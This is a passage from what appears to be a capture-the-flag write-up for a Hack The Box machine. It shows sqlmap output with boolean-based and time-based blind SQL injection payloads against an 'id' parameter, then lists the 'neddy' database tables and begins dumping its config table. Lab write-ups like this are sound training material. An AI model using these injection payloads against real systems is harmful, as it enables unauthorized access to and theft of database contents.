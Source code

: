 ```
[00:24:44] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 7206=7206-- KRax

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=465' AND SLEEP(5)-- rGmr
---
[00:24:45] [INFO] testing MySQL
[00:24:45] [INFO] confirming MySQL
[00:24:45] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[00:24:45] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'

[*] ending @ 00:24:45 /2019-04-24/
```

Nice. `sqlmap` found two techniques of SQL injection! Long story short, it's time-wasting to dump the entire current database, `neddy` by the way. We've to choose our battles wisely. Let's see what are the available tables.

```
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```

I've chosen tables `config`, `filepath`, and `idname`. Here they are.

_`db: neddy, table: config`_

```
Database: neddy                                                                                                                                                                                                                               
Table: config
[52 entries]
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
| 54  | offline                 | 0                                                                        |
| 55  | offline_message         | Site offline, please come back later                                     |
```

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/